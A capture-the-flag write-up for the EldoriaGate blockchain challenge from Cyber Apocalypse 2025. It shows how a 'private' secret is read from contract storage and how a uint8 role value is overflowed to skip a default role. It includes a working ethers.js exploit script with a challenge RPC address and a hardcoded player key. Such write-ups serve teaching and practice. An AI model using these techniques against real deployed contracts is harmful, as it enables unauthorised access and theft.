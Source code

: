```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | EldoriaGate Writeup
desc: Check out our writeup for EldoriaGate for Cyber Apocalypse 2025 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: blockchain
challenge: EldoriaGate
tags: "blockchain, starry, ethers"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```



> Solved by Starry-Lord


    contract EldoriaGateKernel {
        bytes4 private eldoriaSecret;
        ...
    }

First I thought we needed to Bruteforce the secret, but then I realized the value was getting stored on-chain, and as we all know, on-chain storage is public [**😉**](https://emojipedia.org/winking-face), so we could just extract it from the creation of the contract’s transaction.

Since it’s the first declared variable, it is stored at slot 0 on the EldorianGateKernel contract address.

With that we managed to authenticate, but we still needed to become the “Usurper” which is basically not receiving any role, but the contract assigned the ROLE_SERF by default:


    function evaluateIdentity(address _unknown, uint8 _contribution) external onlyFrontend returns (uint id, uint8 roles) {
                ...
                let defaultRolesMask := ROLE_SERF
                roles := add(defaultRolesMask, _contribution)
                if lt(roles, defaultRolesMask) { revert(0, 0) }
                ...
        }

But we can break it by passing the contribution value 255, which is an 8-bit value. The key here is that shifting left an 8-bit value by 256 brings us back to 0, thus allowing us to not get a default role:


    function evaluateIdentity(address _unknown, uint8 _contribution) external onlyFrontend returns (uint id, uint8 roles) {
            assembly {
                mstore(0x00, _unknown)
                mstore(0x20, villagers.slot)
                let villagerSlot := keccak256(0x00, 0x40)
                mstore(0x00, _unknown)
                id := keccak256(0x00, 0x20)
                sstore(villagerSlot, id)
                let storedPacked := sload(add(villagerSlot, 1))
                let storedAuth := and(storedPacked, 0xff)
                if iszero(storedAuth) { revert(0, 0) }
                let defaultRolesMask := ROLE_SERF
                roles := add(defaultRolesMask, _contribution)
                if lt(roles, defaultRolesMask) { revert(0, 0) }
                let packed := or(storedAuth, shl(8, roles))
                sstore(add(villagerSlot, 1), packed)
        }
    }

solve.js with ethers.js v5:


    const { ethers } = require("ethers");
    
    const RPC_URL = "http://94.237.58.78:50156";
    const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
    
    // CONFIGURATION
    const TARGET_ADDRESS = "0x89B1908C814588a24269cD14409ba6b4B15a709B"; // EldoriaGate
    const PLAYER_PRIVATE_KEY = "0x63ddf21f62799265b687cd70c91065c94b75aa8b9aab40d2f122c14dc0513c32";
    
    // CONTRACT ABIs
    const EldoriaGateABI = [
      "function enter(bytes4 passphrase) external payable",
      "function kernel() public view returns (address)"
    ];
    
    // Setup
    const player = new ethers.Wallet(PLAYER_PRIVATE_KEY, provider);
    const gate = new ethers.Contract(TARGET_ADDRESS, EldoriaGateABI, player);
    
    async function main() {
      console.log("[*] Getting EldoriaGateKernel address...");
      const kernelAddress = await gate.kernel();
      console.log("[+] Kernel address:", kernelAddress);
    
      console.log("[*] Reading storage slot 0 from kernel...");
      const rawSlot = await provider.getStorageAt(kernelAddress, 0);
      console.log("[+] Raw slot 0 data:", rawSlot);
    
      // Extract last 4 bytes (right-aligned)
      const guess = "0x" + rawSlot.slice(66 - 8);
      console.log("[+] Interpreted eldoriaSecret:", guess);
    
      console.log("[*] Attempting to call enter() with secret...");
    
      try {
        const tx = await gate.enter(guess, { value: 255 });
        await tx.wait();
        console.log(`\n🎉 [SUCCESS] Authentication passed with secret: ${guess}`);
      } catch (err) {
        const reason = err?.error?.message || err?.reason || "Unknown error";
        console.log(`\n[x] enter(${guess}) failed: ${reason}`);
      }
    }
    
    main().catch(console.error);
    


![](https://i.imgur.com/7P2f4OD.png)


